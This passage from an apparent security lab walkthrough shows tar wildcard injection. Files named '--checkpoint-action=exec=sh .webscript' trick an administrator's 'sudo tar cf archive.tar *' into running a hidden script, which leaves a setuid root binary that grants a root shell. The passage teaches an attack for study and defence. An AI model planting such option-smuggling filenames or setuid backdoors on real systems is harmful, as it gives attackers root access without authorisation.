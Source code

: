        - Run `sudo tar cf archive.tar *`

       - Note that this command is run within the directory where `.webscript` is located. If it were run elsewhere, the backdoor would not be generated.

   - Getting this exploit to work requires the system administrator to create the archive from the same folder where `.webscript` lives. Common targets that are often archived in this way include `/tmp`, users' `~` directories, users' `Documents` directories.

5. List the contents of our directory to show that our hidden malicious program and checkpoint files have been created.

    - Run: `ls -la` and show the output:

      ```
      drwxrwxr-x 3 instructor instructor  4096 Apr 28 19:53 .
      -rw-r--r-- 1 root       root       10240 Apr 28 19:53 archive.tar
      drwxr-xr-x 2 root       root        4096 Apr 28 19:53 .cache
      -rw-rw-r-- 1 instructor instructor  3699 Apr 28 19:50 wildpwn.py
      drwxr-xr-x 5 instructor instructor  4096 Apr 28 19:49 ..
      ```

    - Review the following about this output:

      - There is a new directory called `.cache` that we will explore in just a moment.

      - The directory contained two files: `--checkpoint=1` and  `--checkpoint-action=exec=sh .webscript`

      - These are files whose names look like `tar` commands. Normal users would never use such filenames. This is something that only hackers would do.

      - The `.webscript` contained the malicious code that was planted by running the `wildpwn.py` program.

    - What do you think the file `--checkpoint-action=exec=sh .webscript` will do when interpreted as a checkpoint command.

      - **Answer:** When an administrator uses `tar` to create an archive containing this file, it will cause `tar` to run the program `.webscript` as a checkpoint command. Note that the period `.` before `webscript` indicates that it is a hidden file. It can be displayed using the `-a` switch. 

6. Move into the new `.cache` directory and list the files located inside.

    - `cd .cache`

    - `ls -la` to show the output:

      ```
      total 20
      drwxr-xr-x 2 root       root       4096 Jan  3 13:54 .
      drwxr-xr-x 8 instructor instructor 4096 Jan  6 10:50 ..
      -rwsr-xr-x 1 root       root       8392 Jan  3 13:54 .cachefile
      ```

       - There is only one file here, an executable `.cachefile`.

   - Run: `./.cachefile` to execute it.
    
    - This will  change the user prompt from `instructor` to `root`. We now have root access.
